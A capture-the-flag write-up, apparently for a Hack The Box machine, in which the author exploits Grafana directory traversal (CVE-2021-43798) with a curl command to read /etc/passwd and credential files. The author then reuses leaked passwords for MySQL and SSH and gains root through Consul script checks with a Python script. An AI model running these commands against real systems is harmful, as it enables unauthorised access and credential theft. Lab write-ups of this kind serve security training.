

## User Owning:


After performing an nmap scan and exploring, we find that there is SSH running on port 22, a static site running on port 80, a mysql server running on port 3306 (not locally), and a web app running on port 3000.


The web-server running on port 80 displays a static site. Nothing interesting except this: 


Seems like we can login in SSH as `developer` with a password provided by the DevOps team. Neat! We move onto port 3000. 

The web app on port 3000 is [Grafana](https://github.com/grafana/grafana), which is some data-visualization software. We are greeted with a login page. 

After bruteforcing directories in Grafana, we find a `/metrics` page which contains Go metrics (info about how Grafana is running etc) since Grafana is partly written in Go. Skimming through the metrics, we can see an interesting endpoint:`public/plugins/:pluginId`

If we do some more research, we find the plugin ids in Grafana such as: mysql, canvas, cloudwatch, etc… 

If we visit the endpoint `public/plugins/mysql/` , we get redirected to `/login` but if we visit `public/plugins/mysql/fubar`, we get the JSON response:

```json
{"message": "Plugin file not found"}
```

Meaning that it looked for a file name `fubar` which did not exist. I then try to perform directory traversal by visiting `public/plugins/mysql/../../../../../../../../../../../../../etc/passwd`, but the browser removes the `../` sequences. 

**If we send the GET request using cURL with the `--path-as-is` argument, the `../` will be KEPT in the request URL:** 

```bash
curl --path-as-is -X GET http://10.10.11.183:3000/public/plugins/mysql/../../../../../../../../../../../../../etc/passwd
```

After sending the request, SUCCESS! It returned the `/etc/passwd` file!

 


This path traversal vulnerability was previously reported and it was a big deal: [https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p](https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p) 

More info: [https://grafana.com/blog/2021/12/08/an-update-on-0day-cve-2021-43798-grafana-directory-traversal/](https://grafana.com/blog/2021/12/08/an-update-on-0day-cve-2021-43798-grafana-directory-traversal/) 

Since we now have the ability to read files on the server (under the `grafana` user since you can see a `grafana` user existing in the `/etc/passwd` file), we want to get credentials that will allow us to login to Grafana. After doing some research, we find that the admin password is stored in `/etc/grafana/grafana.ini`. So we use the path traversal vulnerability to get the contents of that file and after skimming through it, we find the field `admin_password=messageInABottle685427`. Boom! 

We proceed to login with the username “admin” and the password "messageInABottle685427”. 

After looking around, there really isn’t anything interesting that we can do in Grafana. Using the path traversal vulnerability, we try to find the password to the MySQL server. 

After doing some research, we find that the MySQL credentials in Grafana are stored at `/etc/grafana/provisioning/datasources/mysql.yaml`. So using our path traversal exploit, we get the contents of this file and it returns:


Boom! The username is `grafana` and the password is `dontStandSoCloseToMe63221!`. 

We then log into the MySQL server using: 

```bash
mysql --user="grafana" --password="dontStandSoCloseToMe63221!" --host="10.10.11.183"
```

Boom! Successful login! 

We then enumerate all the databases using the `show databases;` command. 

We get the following:


After looking around in all the databases, what stands out is what’s in the `whackywidget` database. We select the `whackywidget` database by running the `\u whackywidget` command. 

We then enumerate all the tables within the database using the `show tables;` command. We get a single `users` table. 


We get all rows within the `users` table by running the `SELECT * FROM users;` command. We get the following:

 


It appears like the password is base64 encoded, which is stupid because an encoding is NOT the same as an encryption. This does not protect the password whatsoever as anyone can just decode a base64 string. We decode the base64 string to reveal the password: 



The password is `anEnglishManInNewYork027468`. 

If we recall what was on the static webpages on port 80, it said that to connect to this machine, you can login as `developer` with a password provided by the DevOps team. We try logging in the machine with the password we just found:

```
ssh developer@10.10.11.183
developer@10.10.11.183's password: <WE ENTER anEnglishManInNewYork027468>
```

And it works! We are now logged in as `developer`! You can find the `user.txt` file in the home directory. We print the contents of the `user.txt` file and boom! We user owned the box!


## Privilege Escalation:

Using [pspy](https://github.com/DominicBreuker/pspy), we can see that the root user (UID=0) is running [Consul](https://www.consul.io/)


We find an AccessorID for Consul: bb03b43b-1d81-d62b-24b5-39540ee469b5

- Found by recovering previous versions of the whackywidgets app found in `/opt/my-app` using the `.git/` folder and [GitTools](https://github.com/internetwache/GitTools)

Checking the `/etc/consul.d/consul.hcl` shows that `enable_script_checks = true`. 

This means that agents in Consul are able to run scripts when performing a check. This is dangerous because Consul is being ran as root. This means using the AccessorID that I found above, I can send an HTTP request to the consul API running locally on port 8500, and create a new check. In this check, I attach the path to a script for consul to run every time the check is made (checks are ran periodically and you can set how frequently they are ran when creating the check), which will be ran AS ROOT. 

For additional info on checks: [https://developer.hashicorp.com/consul/api-docs/agent/check](https://developer.hashicorp.com/consul/api-docs/agent/check)

So what I did is, I created a new check in Consul using the following python script. 

```python
from requests import get, put
import json

NEW_CHECK = json.dumps({
	'Name': 'pwn',
	'Args': ['sh', '/tmp/.css/PWN.sh'], # THE MALICIOUS SCRIPT WAS CREATED AT /tmp/.css/PWN.sh. We are telling Consul to run "sh /tmp/.css/PWN.sh" every time the check is ran. 
	'Interval': '5s', # check is ran every 5 seconds (not important)
})

HEADERS = {
	'Content-Type': 'application/json',
	'X-Consul-Token': 'bb03b43b-1d81-d62b-24b5-39540ee469b5' # The AccessorID we previously found (you need an accessorID with the proper write permissions to create a new check.)
}

print('[*] Creating malicious check...')
res = put('http://localhost:8500/v1/agent/check/register', data=NEW_CHECK, headers=HEADERS) # create/register the new malicious check
print('[*] DONE.\n')
print(res.status_code, res.reason, res.content)
```

The contents of the malicious script at `/tmp/.css/PWN.sh`:

```bash
cat /root/root.txt > /tmp/.css/root.txt # simply prints the contents of root.txt into another file named root.txt in /tmp/.css
```

FOR MORE INFO ON THIS EXPLOIT: 
[https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)

Once the check is created, after 5 seconds, the checks should be ran and there will be a file in `/tmp/.css/root.txt` that will contain the root flag. Boom, system owned!


# Ambassador has been pwned!